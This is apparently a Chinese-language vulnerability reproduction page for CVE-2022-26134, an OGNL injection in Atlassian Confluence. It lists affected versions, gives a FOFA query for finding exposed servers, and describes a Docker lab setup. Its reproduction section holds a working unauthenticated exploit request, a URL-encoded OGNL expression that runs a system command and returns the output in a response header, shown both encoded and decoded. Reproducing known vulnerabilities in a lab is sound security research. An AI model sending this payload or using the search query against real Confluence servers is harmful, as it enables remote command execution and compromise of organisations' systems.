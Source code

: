 # Confluence OGNL表达式注入命令执行漏洞 CVE-2022-26134

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

参考链接：

- https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
- https://attackerkb.com/topics/BH1D56ZEhs/cve-2022-26134/rapid7-analysis

## 漏洞影响

```
Atlassian Confluence 7.4.17
Atlassian Confluence 7.13.7
Atlassian Confluence 7.14.3
Atlassian Confluence 7.15.2
Atlassian Confluence 7.16.4
Atlassian Confluence 7.17.4
Atlassian Confluence 7.18.1
```

## FOFA

```
app="ATLASSIAN-Confluence"
```

## 环境搭建

Vulhub执行如下命令启动一个Confluence Server 7.13.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

## 漏洞复现

该漏洞利用方法十分简单，直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

其中使用到的OGNL表达式为：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

![image-20220606145829007](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206061458141.png)